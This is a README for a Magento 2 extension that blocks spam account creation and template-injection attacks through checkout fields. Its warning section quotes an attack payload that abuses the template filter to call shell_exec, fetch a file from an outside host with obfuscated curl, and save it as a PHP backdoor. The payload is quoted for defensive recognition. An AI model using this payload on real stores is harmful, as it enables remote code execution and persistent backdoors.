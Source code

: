# Lazerbahn_Antispam

A customizable and simple Magento 2 extension for blocking (russian) spambots creating new customer accounts
and trying to hack Magento stores via template parameter injection in checkout.

This extension is based on https://github.com/Kreativsoehne/magento-2-simple-antispam but heavily extended.

## WARNING!

This extension has been rushed to production and probably requires some changes by developers for your purposes.
It's a quick and dirty patch for the current wave of hacking and spamming attacks.

There is NO GUARANTEE that this exception will make your shop safe!! 

If you find orders in your shop that contain something like this 

    var this.getTemplateFilter().filter(foobar)var this.getTemplateFilter().addAfterFilterCallback(shell_exec).filter(curl${IFS%??}-O${IFS%??}https://www.hacker.com/css/retro.css;mv${IFS%??}retro.css${IFS%??}a122.php")"

in the customer names that you have been targeted by an attack. Check the pub folder for new php files that 
have been placed there. Delete them immediately, they are backdoors! You want to erase and set up the whole
system anew! As far as I can tell, it seems only Apache servers are really affected because nginx-setups
only allow access to certain php files and the backdoor files are not in there. Nevertheless, even nginx servers
receive the php files. So, hackers are able to place files on a system which is scary enough.

This should only happen on outdated Magento 2 installs. Please update immediately!

## Installation
    1. $ composer require lazerbahn/magento2-simple-antispam
    2. $ ./bin/magento module:enable Lazerbahn_Antispam
    3. $ ./bin/magento setup:upgrade
	4. $ ./bin/magento setup:di:compile
    5. Profit.

## usage

This extension is very simple. By default, it won't perform a registration request Or create guest orders 
when some registration fields contain special strings on a blacklist:

You can specify those strings in the backend under Stores -> Configuration -> Lazerbahn -> Antispam-
After installation you need to activate the extension there. Currently, this will only deactivate the account creation
part. Sorry!

You can change the whole extension behaviour according to your need. Just edit this file:

    ./Plugin/Customer/Controller/Account/CreatePostPlugin.php

## how it works
It's a simple interceptor plugin which wraps the \Magento\Customer\Controller\Account\CreatePost::Execute() method 
into an around method.
It will search all specified form fields for the spam content by a simple iteration. The original Execute() 
method will only be called if there was no spam string detected.

For the guest checkout it goes through all the address fields and if it finds a blacklisted string it simple clears
the address. This leads to a standard error that address is missing and hacker is stuck.

## Notice:
This Extension is meant to be used as a skeleton by developers. It is very primitive and may need customization.
When installing via Composer, further upgrades will eliminate your customizations. Make sure to write an interceptor 
plugin by yourself, don't upgrade or use it as a local extension in the /app/code/ folder.

Probably there will be a future version, capable of defining blacklisted strings and form fields via Magento Admin 
We're happy about every contribution :)
